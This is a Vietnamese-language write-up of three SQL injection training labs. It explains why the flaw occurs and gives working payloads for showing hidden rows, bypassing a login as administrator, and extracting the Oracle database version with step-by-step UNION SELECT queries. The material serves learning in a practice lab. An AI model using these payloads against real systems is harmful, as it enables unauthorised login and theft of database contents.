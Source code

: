 # SQL Injection Writeups LAB

### Bản chất
Theo mình nghĩ bản chất của lỗ hổng này đó chính là các nhà phát triển không lọc sạch hoặc loại bỏ các kí tự nguy hiểm input của người dùng, các kí tự đó có thể là single quote `'` hoặc double quote `"` hoặc là các dấu `() {}` tùy theo ngữ cảnh của câu query đến database mà user input được đưa vào, nó sau đó sẽ được chèn vào các câu query và bị escape khiến attacker có thể chèn 1 lệnh hợp lệ để dump ra các dữ liệu thú vị từ database đó. Nó cũng giống như các loại lỗ hổng injection khác, nhưng chỉ có điều ngữ cảnh ở đây là với database. 

## Lab 1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
Description: Ta cần display 1 hoặc nhiều product không được phát hành để pass bài lab với câu query trong database cho trước
`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
Để pass bài lab này, ta chỉ cần sử dụng case cơ bản nhất của SQLi `' OR 1=1--'`
![image](https://hackmd.io/_uploads/H1LxSsJ2a.png)

## Lab 2: SQL injection vulnerability allowing login bypass
Description: Thực hiện SQLi attack để đăng nhập làm admin
Case đơn giản nhất ta chỉ cần nhập `username=administrator'--` với password tùy ý, ta sẽ log in với quyền của admin.
Câu query trong database có thể là `SELECT * FROM users WHERE username='administrator'-- AND password='...'`
![image](https://hackmd.io/_uploads/HJJ48iy3T.png)

## Lab 3: SQL injection attack, querying the database type and version on Oracle
Description: Display version của database
Các bước đầu tiên khi thực hiện SQLi attack, check query dùng dấu `'` hay `"`, sau đó xem câu `SELECT` trước dùng mấy cột với `ORDER BY`, tiếp theo xem từng cột dùng loại datatype nào bằng cách sử dụng thử 1 chuỗi để check từng cột. Rồi xem cột nào được display thì sẽ dùng nó để đi sau vào UNION attack.

Bài hiện tại là dùng Oracle nên có chút hơi khác biệt.
- Mỗi lệnh SELECT là phải dùng FROM DUAL
- Xác định loại và version `SELECT banner FROM v$version`, `SELECT version FROM v$instance`

Với bài này, ta sẽ theo luồng như sau (Nhớ URL encode các query)
```
' OR 1=1--
' ORDER BY 2-- (Khi dùng ORDER BY 3 sẽ gặp lỗi -> Có 2 cột)
' UNION SELECT NULL,NULL FROM DUAL--
' UNION SELECT 'a','a' FROM DUAL-- (Cả 2 cột đều dùng string)
' UNION SELECT banner,NULL FROM v$version--
```

![image](https://hackmd.io/_uploads/HkzJCjk2T.png)
